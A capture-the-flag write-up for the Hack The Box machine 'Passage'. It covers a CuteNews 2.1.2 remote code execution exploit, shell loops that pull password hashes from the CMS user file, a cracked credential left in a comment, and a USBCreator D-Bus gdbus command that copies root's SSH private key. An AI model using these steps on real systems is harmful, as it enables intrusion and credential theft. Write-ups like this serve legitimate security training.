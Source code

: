 ![](passage_banner.png)

<p align="right">   <a href="https://www.hackthebox.eu/home/users/profile/391067" target="_blank"><img loading="lazy" alt="x00tex" src="https://www.hackthebox.eu/badge/image/391067"></a>
</p>

# Scanning

## Nmap

`ports=$(nmap -Pn -p- --min-rate=1000 -T4 10.10.10.206 | grep open | awk -F / '{print $1}' ORS=',') echo $ports && nmap -p$ports -sV -sC -v -T4 -oA scans/nmap.full 10.10.10.206`
```diff
PORT   STATE SERVICE VERSION
 22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
+80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Passage News
```

## web server

* http server is running cutenews cms
  * **[cutenews](https://cutephp.com/):** CuteNews is a FREE, powerful and easy-to-use news management system based on flat files as a storage with quick installation, search function, file upload management, backup & restore, IP banning, permission levels supporting, flood protection and many more. Moreover Cutenews is UTF-8 fully compatible system.

* in the web page there is a rss feed link which goes here `http://passage.htb/CuteNews/rss.php` this is inside cms directory and thats how we get cms directory.
  * going to cms directory we get login page and also cms version -

    ![](screenshots/cutenews.png)

  * **Version:** 2.1.2
  * **Exploit:** [CVE-2019-11447](https://nvd.nist.gov/vuln/detail/CVE-2019-11447) **RCE** [ExploitDB](https://www.exploit-db.com/exploits/48800)

  * **msf module:** `exploit/unix/webapp/cuteNews_rce`

# web shell

* using exploitDB python script we get the web user shell on the box -

  ![](screenshots/cutenews-exploit.png)

* inside `/var/www/html/CuteNews/cdata/users/` found a file named "lines" contains some password hashes -

      for i in $(cat /var/www/html/CuteNews/cdata/users/lines | grep -v php); do echo $i | base64 -d | grep -E '[0-9a-z]{64}' | grep -oE '[a-z0-9]+@[a-z]+.[a-z]{3}|[0-9a-z]{64}' && echo; done

  ![](screenshots/grep-hashes.png)

  * crack the hash -

        for i in $(cat /var/www/html/CuteNews/cdata/users/lines | grep -v php); do echo $i | base64 -d | grep -E '[0-9a-z]{64}' | grep -oE '[a-z0-9]+@[a-z]+.[a-z]{3}|[0-9a-z]{64}' | tr '\n' ':' | sed 's/.$//' && echo ; done | sed '/^ *$/d'

    ![](screenshots/crack-the-hash.png)
	<!--paul:atlanta1-->

# user shell

## user:paul

* crack the paul password hash and the same user have shell in the box so we can try to su to user paul

  ![](screenshots/su-you-paul.png)
	
* it looks like user paul's .ssh directory coatins user nadav ssh key -

  ![](screenshots/nadav-in-ssh.png)

## user:nadav

* use that private ssh key to get nadav shell -

  ![](screenshots/nadav-is-here.png)

* something in the viminfo file - 

  ![](screenshots/viminfo.png)

  * two config file edited owned by root -

    ![](screenshots/owned-by-root.png)

* searching about these files find something interesting about USBCreator [here](https://unit42.paloaltonetworks.com/usbcreator-d-bus-privilege-escalation-in-ubuntu-desktop/)

  * flaw in the USBCreator D-Bus interface which:

    Allows an attacker with access to a user in the sudoers group to bypass the password security policy imposed by the sudo program. The vulnerability allows an attacker to overwrite arbitrary files with arbitrary content, as root – without supplying a password. This trivially leads to elevated privileges, for instance, by overwriting the shadow file and setting a password for root.

	* D-Bus is a messaging system that is a core system on many Linux systems, allowing for communications between processes running on the same system. This vulnerability is in how this process, interface mistakenly allows for an attacker to trigger it to do something unintended, arbitrary write as root.

  * i don't understand it completely but found the exploit in the end of the article to just get the root

# Privesc

  * using USBCreator D-Bus interface exploit to read root ssh key -

		gdbus call -y -d com.ubuntu.USBCreator -o /com/ubuntu/USBCreator -m com.ubuntu.USBCreator.Image /root/.ssh/id_rsa /tmp/root_rsa true

    ![](screenshots/root-key-on-bus.png)

